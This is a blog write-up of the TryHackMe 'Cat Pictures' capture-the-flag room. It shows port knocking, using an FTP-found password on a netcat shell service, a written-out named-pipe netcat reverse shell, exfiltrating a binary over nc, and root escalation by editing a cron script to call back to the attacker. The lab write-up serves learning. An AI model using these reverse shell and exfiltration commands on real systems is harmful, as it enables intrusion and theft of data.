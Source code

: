```yaml
---
layout: post
title:  "THM: Cat Pictures"
date:   2021-06-06 20:30:00 +1000
category: hacking
---
```


## Cat Pictures
*I made a forum where you can post cute cat pictures!*

Easy rated. This is [Cat Pictures](https://tryhackme.com/room/catpictures) from THM. Ratings are weird; I did [Linux Server Forensics](https://tryhackme.com/room/linuxserverforensics) the other day which is Medium rated; I'm not going to bother writing it up because it was so straightforward. Anyway. This one sounds like it might be a file upload vulnerability or something? Turns out it's not ... 

## Ports
The description sounds like a web challenge; what do we get?

SSH, an unknown service on port 4420, and an HTTP proxy on 8080. Guess that last one is our target, but first let's check 4420.

## 4420
{% highlight shell %}
┌──(root💀kali)-[/opt/thm/catpictures]
└─# nc 10.10.137.126 4420                                           
INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password:
asd
Invalid password...
Connection Closed
{% endhighlight %}

I guess we can always bruteforce it if we have to.

## 8080
The homepage for the website is a bulletin board, and there is a link to one forum topic. If we go there, we get this in the post:

>Post cat pictures here!  
Post by user » Wed Mar 24, 2021 8:33 pm   
POST ALL YOUR CAT PICTURES HERE  
Knock knock! Magic numbers: 1111, 2222, 3333, 4444

Well, we should knock then:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/catpictures]
└─# knock 10.10.137.126 1111 2222 3333 4444
                                     
┌──(root💀kali)-[/opt/thm/catpictures]
└─# rustscan -a 10.10.137.126 --ulimit 5000 -b 2000
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.137.126:22
Open 10.10.137.126:21
Open 10.10.137.126:4420
Open 10.10.137.126:8080
{% endhighlight %}

It seems we now have FTP.

## FTP
The FTP is anonymous login only and we cannot PUT. There is a single file we can download, which has a password in it. With that, it's back to Port 4420.

## 4420, again
{% highlight shell %}
┌──(root💀kali)-[/opt/thm/catpictures]
└─# nc 10.10.137.126 4420                                                               

INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password:
sardinethecat
Password accepted
{% endhighlight %}

We have a limited shell. Enumerating finds a (binary) file called *runme*, but it won't run in the limited shell. I get a reverse shell:

``
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.10.123 1234 >/tmp/f
``

and I can run the binary; it wants a password. However, the password is not the one we already have. I exfil the file with nc:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/catpictures]
└─# nc -nvlp 1234                                                                       

listening on [any] 1234 ...
connect to [10.9.10.123] from (UNKNOWN) [10.10.137.126] 49106
/bin/sh: 0: can't access tty; job control turned off
# cd /home/catlover
# nc 10.9.10.123 1235 < runme
{% endhighlight %}

And a listener:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/catpictures]
└─# nc -l -p 1235 > runme         
{% endhighlight %}

Once I get the file, strings is all that's required:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/catpictures]
└─# strings runme                               
/lib64/ld-linux-x86-64.so.2
__gmon_start__
# etc
rebecca
Please enter yout password: 
Welcome, catlover! SSH key transfer queued! 
touch /tmp/gibmethesshkey
Access Denied
# more etc
{% endhighlight %}

So let's do that:

{% highlight shell %}
# ./runme
Please enter yout password: rebecca
Welcome, catlover! SSH key transfer queued! 
{% endhighlight %}

## SSH
The key is written to /home/catlover/id_rsa and once we have it we can SSH in:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/catpictures]
└─# nano id_rsa                                                                               
┌──(root💀kali)-[/opt/thm/catpictures]
└─# chmod 600 id_rsa        
                                                     
┌──(root💀kali)-[/opt/thm/catpictures]
└─# ssh -i id_rsa catlover@10.10.137.126
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0

52 updates can be applied immediately.
25 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Last login: Fri Jun  4 14:40:35 2021
root@7546fa2336d6:/# 
{% endhighlight %}

And at this point we are root in a Docker container and we can get Flag 1.

## Root, but actually
The root part isn't a traditional Docker container escape. There is a root script running on a cron job, and it runs in the host. 

{% highlight shell %}
root@7546fa2336d6:/opt/clean# ls -lash
total 16K
4.0K drwxr-xr-x 2 root root 4.0K May  1 00:20 .
8.0K drwxrwxr-x 1 root root 4.0K Mar 25 16:08 ..
4.0K -rw-r--r-- 1 root root   27 May  1 00:20 clean.sh
{% endhighlight %}

We can edit it, so I just add a bash reverse shell line and wait a minute:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/catpictures]
└─# nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.9.10.123] from (UNKNOWN) [10.10.180.254] 46094
bash: cannot set terminal process group (4964): Inappropriate ioctl for device
bash: no job control in this shell
root@cat-pictures:~# cd /root
cd /root
root@cat-pictures:~# ls -lash
ls -lash
total 60K
4.0K drwx------  8 root root 4.0K Apr  2 17:37 .
4.0K drwxr-xr-x 23 root root 4.0K Apr 30 19:57 ..
   0 lrwxrwxrwx  1 root root    9 Mar 24 13:14 .bash_history -> /dev/null
4.0K -rw-r--r--  1 root root 3.1K Apr  9  2018 .bashrc
4.0K drwx------  3 root root 4.0K Mar 31 19:44 .cache
4.0K drwx------  3 root root 4.0K Mar 24 11:40 .config
4.0K drwxr-xr-x  2 root root 4.0K Apr  2 17:37 firewall
4.0K drwx------  3 root root 4.0K Mar 24 11:34 .gnupg
4.0K -rw-------  1 root root   28 Apr  2 15:57 .lesshst
4.0K drwxr-xr-x  3 root root 4.0K Mar 24 11:23 .local
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-------  1 root root   45 Mar 31 19:49 .python_history
4.0K -rw-r--r--  1 root root   73 Mar 25 09:29 root.txt
4.0K -rw-r--r--  1 root root   66 Mar 25 09:14 .selected_editor
4.0K drwx------  2 root root 4.0K Mar 25 12:31 .ssh
4.0K -rw-r--r--  1 root root  168 Apr  2 14:06 .wget-hsts
root@cat-pictures:~# cat root.txt
cat root.txt
Congrats!!!
Here is your flag:

GO_GET_IT_YOURSELF
root@cat-pictures:~#
{% endhighlight %}

This was pretty pure CTF but I still enjoyed it. THM haven't had much interesting content lately so this was okay. I've been working on their Autopsy room which is also kind of interesting so I'll have something to say about that soon. 

